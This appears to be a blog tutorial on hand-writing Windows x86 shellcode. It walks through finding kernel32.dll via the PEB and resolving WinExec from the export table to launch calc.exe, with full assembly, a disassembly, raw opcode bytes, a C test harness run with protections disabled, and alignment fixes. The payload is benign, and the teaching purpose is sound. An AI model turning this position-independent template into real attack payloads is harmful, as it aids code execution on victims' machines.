
Image Source: https://blogs.msdn.microsoft.com/hanybarakat/2007/02/25/deeper-into-windows-architecture/


mov ebx, fs:0x30 ; Get pointer to PEB
mov ebx, [ebx + 0x0C] ; Get pointer to PEB_LDR_DATA
mov ebx, [ebx + 0x14] ; Get pointer to first entry in InMemoryOrderModuleList
mov ebx, [ebx] ; Get pointer to second (ntdll.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx] ; Get pointer to third (kernel32.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx + 0x10] ; Get kernel32.dll base address
They say a picture is worth a thousand words, so I made one to illustrate the process. Open it in a new tab, zoom and take a good look.





; Establish a new stack frame
push ebp
mov ebp, esp
sub esp, 18h ; Allocate memory on stack for local variables
; push the function name on the stack
xor esi, esi
push esi ; null termination
push 63h
pushw 6578h
push 456e6957h
mov [ebp-4], esp ; var4 = "WinExec\x00"
; Find kernel32.dll base address
mov ebx, fs:0x30
mov ebx, [ebx + 0x0C]
mov ebx, [ebx + 0x14]
mov ebx, [ebx]
mov ebx, [ebx]
mov ebx, [ebx + 0x10] ; ebx holds kernel32.dll base address
mov [ebp-8], ebx ; var8 = kernel32.dll base address
; Find WinExec address
mov eax, [ebx + 3Ch] ; RVA of PE signature
add eax, ebx ; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h] ; RVA of Export Table
add eax, ebx ; Address of Export Table
mov ecx, [eax + 24h] ; RVA of Ordinal Table
add ecx, ebx ; Address of Ordinal Table
mov [ebp-0Ch], ecx ; var12 = Address of Ordinal Table
mov edi, [eax + 20h] ; RVA of Name Pointer Table
add edi, ebx ; Address of Name Pointer Table
mov [ebp-10h], edi ; var16 = Address of Name Pointer Table
mov edx, [eax + 1Ch] ; RVA of Address Table
add edx, ebx ; Address of Address Table
mov [ebp-14h], edx ; var20 = Address of Address Table
mov edx, [eax + 14h] ; Number of exported functions
xor eax, eax ; counter = 0
.loop:
mov edi, [ebp-10h] ; edi = var16 = Address of Name Pointer Table
mov esi, [ebp-4] ; esi = var4 = "WinExec\x00"
xor ecx, ecx
cld ; set DF=0 => process strings from left to right
mov edi, [edi + eax*4] ; Entries in Name Pointer Table are 4 bytes long
; edi = RVA Nth entry = Address of Name Table * 4
add edi, ebx ; edi = address of string = base address + RVA Nth entry
add cx, 8 ; Length of strings to compare (len('WinExec') = 8)
repe cmpsb ; Compare the first 8 bytes of strings in
; esi and edi registers. ZF=1 if equal, ZF=0 if not
jz start.found
inc eax ; counter++
cmp eax, edx ; check if last function is reached
jb start.loop ; if not the last -> loop
add esp, 26h
jmp start.end ; if function is not found, jump to end
.found:
; the counter (eax) now holds the position of WinExec
mov ecx, [ebp-0Ch] ; ecx = var12 = Address of Ordinal Table
mov edx, [ebp-14h] ; edx = var20 = Address of Address Table
mov ax, [ecx + eax*2] ; ax = ordinal number = var12 + (counter * 2)
mov eax, [edx + eax*4] ; eax = RVA of function = var20 + (ordinal * 4)
add eax, ebx ; eax = address of WinExec =
; = kernel32.dll base address + RVA of WinExec
.end:
add esp, 26h ; clear the stack
pop ebp
ret
xor edx, edx
push edx ; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp ; esi -> "C:\Windows\System32\calc.exe"
push 10 ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
xor esi, esi ; esi = 0
mov ebx, [fs:30h + esi]

format PE console
use32
entry start
start:
push eax ; Save all registers
push ebx
push ecx
push edx
push esi
push edi
push ebp
; Establish a new stack frame
push ebp
mov ebp, esp
sub esp, 18h ; Allocate memory on stack for local variables
; push the function name on the stack
xor esi, esi
push esi ; null termination
push 63h
pushw 6578h
push 456e6957h
mov [ebp-4], esp ; var4 = "WinExec\x00"
; Find kernel32.dll base address
xor esi, esi ; esi = 0
mov ebx, [fs:30h + esi] ; written this way to avoid null bytes
mov ebx, [ebx + 0x0C]
mov ebx, [ebx + 0x14]
mov ebx, [ebx]
mov ebx, [ebx]
mov ebx, [ebx + 0x10] ; ebx holds kernel32.dll base address
mov [ebp-8], ebx ; var8 = kernel32.dll base address
; Find WinExec address
mov eax, [ebx + 3Ch] ; RVA of PE signature
add eax, ebx ; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h] ; RVA of Export Table
add eax, ebx ; Address of Export Table
mov ecx, [eax + 24h] ; RVA of Ordinal Table
add ecx, ebx ; Address of Ordinal Table
mov [ebp-0Ch], ecx ; var12 = Address of Ordinal Table
mov edi, [eax + 20h] ; RVA of Name Pointer Table
add edi, ebx ; Address of Name Pointer Table
mov [ebp-10h], edi ; var16 = Address of Name Pointer Table
mov edx, [eax + 1Ch] ; RVA of Address Table
add edx, ebx ; Address of Address Table
mov [ebp-14h], edx ; var20 = Address of Address Table
mov edx, [eax + 14h] ; Number of exported functions
xor eax, eax ; counter = 0
.loop:
mov edi, [ebp-10h] ; edi = var16 = Address of Name Pointer Table
mov esi, [ebp-4] ; esi = var4 = "WinExec\x00"
xor ecx, ecx
cld ; set DF=0 => process strings from left to right
mov edi, [edi + eax*4] ; Entries in Name Pointer Table are 4 bytes long
; edi = RVA Nth entry = Address of Name Table * 4
add edi, ebx ; edi = address of string = base address + RVA Nth entry
add cx, 8 ; Length of strings to compare (len('WinExec') = 8)
repe cmpsb ; Compare the first 8 bytes of strings in
; esi and edi registers. ZF=1 if equal, ZF=0 if not
jz start.found
inc eax ; counter++
cmp eax, edx ; check if last function is reached
jb start.loop ; if not the last -> loop
add esp, 26h
jmp start.end ; if function is not found, jump to end
.found:
; the counter (eax) now holds the position of WinExec
mov ecx, [ebp-0Ch] ; ecx = var12 = Address of Ordinal Table
mov edx, [ebp-14h] ; edx = var20 = Address of Address Table
mov ax, [ecx + eax*2] ; ax = ordinal number = var12 + (counter * 2)
mov eax, [edx + eax*4] ; eax = RVA of function = var20 + (ordinal * 4)
add eax, ebx ; eax = address of WinExec =
; = kernel32.dll base address + RVA of WinExec
xor edx, edx
push edx ; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp ; esi -> "C:\Windows\System32\calc.exe"
push 10 ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
add esp, 46h ; clear the stack
.end:
pop ebp ; restore all registers and exit
pop edi
pop esi
pop edx
pop ecx
pop ebx
pop eax
ret
I opened it in IDA to show you a better visualization. The one showed in IDA doesn’t save all the registers, I added this later, but was too lazy to make new screenshots.


objdump -d -M intel shellcode.exe
401000: 50 push eax
401001: 53 push ebx
401002: 51 push ecx
401003: 52 push edx
401004: 56 push esi
401005: 57 push edi
401006: 55 push ebp
401007: 89 e5 mov ebp,esp
401009: 83 ec 18 sub esp,0x18
40100c: 31 f6 xor esi,esi
40100e: 56 push esi
40100f: 6a 63 push 0x63
401011: 66 68 78 65 pushw 0x6578
401015: 68 57 69 6e 45 push 0x456e6957
40101a: 89 65 fc mov DWORD PTR [ebp-0x4],esp
40101d: 31 f6 xor esi,esi
40101f: 64 8b 5e 30 mov ebx,DWORD PTR fs:[esi+0x30]
401023: 8b 5b 0c mov ebx,DWORD PTR [ebx+0xc]
401026: 8b 5b 14 mov ebx,DWORD PTR [ebx+0x14]
401029: 8b 1b mov ebx,DWORD PTR [ebx]
40102b: 8b 1b mov ebx,DWORD PTR [ebx]
40102d: 8b 5b 10 mov ebx,DWORD PTR [ebx+0x10]
401030: 89 5d f8 mov DWORD PTR [ebp-0x8],ebx
401033: 31 c0 xor eax,eax
401035: 8b 43 3c mov eax,DWORD PTR [ebx+0x3c]
401038: 01 d8 add eax,ebx
40103a: 8b 40 78 mov eax,DWORD PTR [eax+0x78]
40103d: 01 d8 add eax,ebx
40103f: 8b 48 24 mov ecx,DWORD PTR [eax+0x24]
401042: 01 d9 add ecx,ebx
401044: 89 4d f4 mov DWORD PTR [ebp-0xc],ecx
401047: 8b 78 20 mov edi,DWORD PTR [eax+0x20]
40104a: 01 df add edi,ebx
40104c: 89 7d f0 mov DWORD PTR [ebp-0x10],edi
40104f: 8b 50 1c mov edx,DWORD PTR [eax+0x1c]
401052: 01 da add edx,ebx
401054: 89 55 ec mov DWORD PTR [ebp-0x14],edx
401057: 8b 50 14 mov edx,DWORD PTR [eax+0x14]
40105a: 31 c0 xor eax,eax
40105c: 8b 7d f0 mov edi,DWORD PTR [ebp-0x10]
40105f: 8b 75 fc mov esi,DWORD PTR [ebp-0x4]
401062: 31 c9 xor ecx,ecx
401064: fc cld
401065: 8b 3c 87 mov edi,DWORD PTR [edi+eax*4]
401068: 01 df add edi,ebx
40106a: 66 83 c1 08 add cx,0x8
40106e: f3 a6 repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
401070: 74 0a je 0x40107c
401072: 40 inc eax
401073: 39 d0 cmp eax,edx
401075: 72 e5 jb 0x40105c
401077: 83 c4 26 add esp,0x26
40107a: eb 3f jmp 0x4010bb
40107c: 8b 4d f4 mov ecx,DWORD PTR [ebp-0xc]
40107f: 8b 55 ec mov edx,DWORD PTR [ebp-0x14]
401082: 66 8b 04 41 mov ax,WORD PTR [ecx+eax*2]
401086: 8b 04 82 mov eax,DWORD PTR [edx+eax*4]
401089: 01 d8 add eax,ebx
40108b: 31 d2 xor edx,edx
40108d: 52 push edx
40108e: 68 2e 65 78 65 push 0x6578652e
401093: 68 63 61 6c 63 push 0x636c6163
401098: 68 6d 33 32 5c push 0x5c32336d
40109d: 68 79 73 74 65 push 0x65747379
4010a2: 68 77 73 5c 53 push 0x535c7377
4010a7: 68 69 6e 64 6f push 0x6f646e69
4010ac: 68 43 3a 5c 57 push 0x575c3a43
4010b1: 89 e6 mov esi,esp
4010b3: 6a 0a push 0xa
4010b5: 56 push esi
4010b6: ff d0 call eax
4010b8: 83 c4 46 add esp,0x46
4010bb: 5d pop ebp
4010bc: 5f pop edi
4010bd: 5e pop esi
4010be: 5a pop edx
4010bf: 59 pop ecx
4010c0: 5b pop ebx
4010c1: 58 pop eax
4010c2: c3 ret
When I started learning about shellcode writing, one of the things that got me confused is that in the disassembled output the jump instructions use absolute addresses (for example look at address 401070: “je 0x40107c”), which got me thinking how is this working at all? The addresses will be different across processes and across systems and the shellcode will jump to some arbitrary code at a hardcoded address. Thats definitely not portable! As it turns out, though, the disassembled output uses absolute addresses for convenience, in reality the instructions use relative addresses.50 53 51 52 56 57 55 89 e5 83 ec 18 31 f6 56 6a 63 66 68 78 65 68 57 69 6e 45 89 65 fc 31 f6 64 8b 5e 30 8b 5b 0c 8b 5b 14 8b 1b 8b 1b 8b 5b 10 89 5d f8 31 c0 8b 43 3c 01 d8 8b 40 78 01 d8 8b 48 24 01 d9 89 4d f4 8b 78 20 01 df 89 7d f0 8b 50 1c 01 da 89 55 ec 8b 50 14 31 c0 8b 7d f0 8b 75 fc 31 c9 fc 8b 3c 87 01 df 66 83 c1 08 f3 a6 74 0a 40 39 d0 72 e5 83 c4 26 eb 3f 8b 4d f4 8b 55 ec 66 8b 04 41 8b 04 82 01 d8 31 d2 52 68 2e 65 78 65 68 63 61 6c 63 68 6d 33 32 5c 68 79 73 74 65 68 77 73 5c 53 68 69 6e 64 6f 68 43 3a 5c 57 89 e6 6a 0a 56 ff d0 83 c4 46 5d 5f 5e 5a 59 5b 58 c3
Length in bytes:>>> len(shellcode)
200
It’a a lot bigger than the Linux shellcode I wrote.#include <stdio.h>
unsigned char sc[] = "\x50\x53\x51\x52\x56\x57\x55\x89"
"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
"\x63\x66\x68\x78\x65\x68\x57\x69"
"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
"\x50\x1c\x01\xda\x89\x55\xec\x8b"
"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
"\x31\xd2\x52\x68\x2e\x65\x78\x65"
"\x68\x63\x61\x6c\x63\x68\x6d\x33"
"\x32\x5c\x68\x79\x73\x74\x65\x68"
"\x77\x73\x5c\x53\x68\x69\x6e\x64"
"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";
int main()
{
((void(*)())sc)();
return 0;
}
To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:
; push the function name on the stack
xor esi, esi
push esi ; null termination
push 63h
pushw 6578h ; THIS PUSH MESSED THE ALIGNMENT
push 456e6957h
mov [ebp-4], esp ; var4 = "WinExec\x00"
To fix it change that part of the assembly to:; push the function name on the stack
xor esi, esi ; null termination
push esi
push 636578h ; NOW THE STACK SHOULD BE ALLIGNED PROPERLY
push 456e6957h
mov [ebp-4], esp ; var4 = "WinExec\x00"
The reason it works on Windows 10 is probably because WinExec no longer requires the stack to be aligned.

xor esi, esi
pushw si ; Pushes only 2 bytes, thus changing the stack alignment to 2-byte boundary
push 63h
pushw 6578h ; Pushing another 2 bytes returns the stack to 4-byte alignment
push 456e6957h
mov [ebp-4], esp ; edx -> "WinExec\x00"